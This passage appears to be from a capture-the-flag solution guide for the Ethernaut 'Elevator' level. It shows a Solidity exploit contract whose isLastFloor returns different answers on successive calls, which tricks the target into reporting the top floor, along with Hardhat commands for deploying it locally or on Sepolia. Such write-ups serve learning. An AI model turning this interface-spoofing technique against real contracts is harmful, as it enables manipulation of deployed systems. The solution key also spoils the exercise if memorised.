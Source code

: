 ```solidity
    function isLastFloor(uint256) external returns (bool) {
        if (!hasBeenCalled) {
            hasBeenCalled = true;
            return false;
        } else {
            hasBeenCalled = false;
            return true;
        }
    }
    
    function attack(uint256 _floor) external {
        require(msg.sender == owner, "Only owner can call this function");
        
        IElevator elevator = IElevator(elevatorAddress);
        elevator.goTo(_floor);
        
        require(elevator.top(), "Failed to reach the top floor");
        require(elevator.floor() == _floor, "Failed to reach the specified floor");
    }
    
    function checkTop() external view returns (bool) {
        return IElevator(elevatorAddress).top();
    }
    
    function checkFloor() external view returns (uint256) {
        return IElevator(elevatorAddress).floor();
    }
}
```

## Step-by-Step Solution Guide

### 1. Deploy the Elevator Contract

If you're testing locally, deploy the Elevator contract first:

```shell
npx hardhat deploy --tags elevator
```

### 2. Deploy the BuildingExploit Contract

Deploy the BuildingExploit contract targeting the Elevator contract:

```shell
npx hardhat deploy --tags elevator-solution
```

Or with a specific Elevator contract address:

```shell
TARGET_ADDRESS=0xYourElevatorAddress npx hardhat deploy --tags elevator-solution --network sepolia
```
